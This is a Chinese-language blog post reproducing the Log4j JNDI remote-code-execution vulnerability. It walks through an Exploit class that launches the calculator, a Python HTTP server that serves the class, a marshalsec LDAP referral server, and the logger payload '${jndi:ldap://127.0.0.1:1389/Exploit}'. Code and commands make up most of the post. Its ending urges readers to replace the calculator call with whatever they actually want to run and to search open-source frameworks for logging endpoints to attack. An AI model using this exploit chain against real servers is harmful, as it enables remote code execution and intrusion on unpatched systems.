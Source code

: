 ```yaml
---
title: 前段时间的Log4J漏洞复现
tags: 信息安全
categories: 信息安全
description: 如何使用正确的方式复现Log4j漏洞，利用Log4j漏洞进行攻击
keywords: 'Log4j漏洞,漏洞,攻击,Apache漏洞,Log4j,网络安全,网络攻击'
abbrlink: 659dfd84
date: 2021-12-24 17:12:02
---
```

Log4j这个漏洞的原理其实非常简单，就是logger在执行日志的时候，如果中间有表达式，就会被执行，如果这个表达式是JNDI就会去远程下载文件到本地执行，复现方式非常简单：

先写一个类：
```
public class Exploit {
    public Exploit(){
        try{
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这个类的作用是调用本地的计算器，直接运行也会弹出计算器的调用结果，把这个Java编译成Class，在这个class的目录执行：
```
 python3 -m http.server 8100     
```
会利用python启动一个http服务，开启在8100端口，这个服务的作用是下载这个class，你直接访问这个地址也能直接下载这个文件。

接着开启一个LDAP服务，利用JDNI反射的方式去调用LDAP，怎么开启LDAP服务呢，不想那么麻烦直接使用一个Java工具即可：
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```
启动后会有如下输出：
```
Listening on 0.0.0.0:1389
Send LDAP reference result for Log4jTest redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Log4jTest redirecting to http://127.0.0.1:8100/Exploit.class
```

有了上面步骤，攻击的环境已经准备好了，只需要寻找目标，自己写一个目标：

```
package com.fcbai.log4j.example;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Log4jExample {
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        logger.error("params:{}","${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}

```

运行上面的代码，会直接弹出计算器的框，有了这个case，那要攻击就方便多了，两个步骤：

1. Exploit的代码写成你自己真正想干的事，而不是调用一个计算。
2. 寻找服务器可能的API，也就是哪些API可能会输出Log，这样你可以在很多开源框架里面到处找，就能找到一大波开源框架漏洞，反是用了这个框架的，你就可以选择`合适`的方式去发起请求。

如此而已。

两个附件下载：
[点击下载](marshalsec-0.0.3-SNAPSHOT-all.jar "marshalsec-0.0.3-SNAPSHOT-all.jar")
[点击下载](log4j-bug-reproduction.tar.gz "log4j-bug-reproduction.tar.gz")

具体的代码请看：https://github.com/baifachuan/log4j-bug-reproduction
